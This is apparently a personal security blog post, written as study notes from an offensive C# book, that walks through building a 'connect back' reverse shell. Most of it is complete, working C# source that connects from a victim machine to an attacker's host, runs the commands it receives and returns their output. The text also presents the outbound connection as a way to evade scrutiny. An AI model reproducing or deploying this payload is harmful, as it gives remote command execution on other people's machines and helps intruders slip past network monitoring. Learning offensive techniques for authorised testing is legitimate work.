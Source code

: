 ```yaml
---
title: Writing a program which allows an attacker to start a listener and listen for a connection back from a victim host.
date: 2021-07-09 10:45:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Reverse Shell.
---
```



## We write a program which allows an attacker to start a listener and listen for a connection back from a victim host.

- We use the following classes:
    > `TCPClient` - to create a new TCPClient object.

    > `Stream` - to create a stream to read/wrtie to.

    > `StreamReader` - read commands from incoming stream.

    > `Process` and `ProcessStartInfo`(add/control certain options in `Process()`) - run commands from an attacker using a new process.
- We use the `Split()` method to split commands into their respective filenames and arguments.
- Helps in evasion, egress traffic from a victim host is less scrutinized.

## Code:

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace Connect_Back_Payload
{
    public class MainClas
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Welcome to your connect back shell\n- Enter a command on your attacker terminal to continue\n");
            // Convert only port from str to int
            using (TcpClient client = new TcpClient(args[0], int.Parse(args[1])))
            {
                //Read/Write to stream
                using (Stream stream = client.GetStream())
                {
                    //Read cmds from attacker
                    using (StreamReader rdr = new StreamReader(stream))
                    {
                        //Read from stream as long as attacker sends cmds
                        while (true)
                        {
                            string cmd = rdr.ReadLine();
                            // If empty
                            if (string.IsNullOrEmpty(cmd))
                            {
                                rdr.Close();
                                stream.Close();
                                client.Close();
                                return;
                            }
                            // Contains only whitespace
                            if (string.IsNullOrWhiteSpace(cmd))
                                continue;

                            //Split cmd into cmd and args
                            string[] split = cmd.Trim().Split(' ');
                            string filename = split.First();
                            string arg = string.Join(" ", split.Skip(1));

                            //Run cmd and return output
                            try
                            {
                                Process prc = new Process();
                                prc.StartInfo = new ProcessStartInfo();
                                prc.StartInfo.FileName = filename;
                                prc.StartInfo.Arguments = arg;
                                //Execute cmds in same shell context
                                prc.StartInfo.UseShellExecute = false;
                                prc.StartInfo.RedirectStandardOutput = true;
                                prc.Start();
                                //Copy stdout to stream and send to attacker
                                prc.StandardOutput.BaseStream.CopyTo(stream);
                                prc.WaitForExit();
                            }
                            catch
                            {
                                string error = "[+] Error running command: " + cmd + "\n";
                                byte[] errorBytes = Encoding.ASCII.GetBytes(error);
                                stream.Write(errorBytes, 0, errorBytes.Length);
                            }
                                
                            
                        }
                    }


                }

            }
        }
    }
}

```

## Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/Connect-back-payload/connect_back.png)
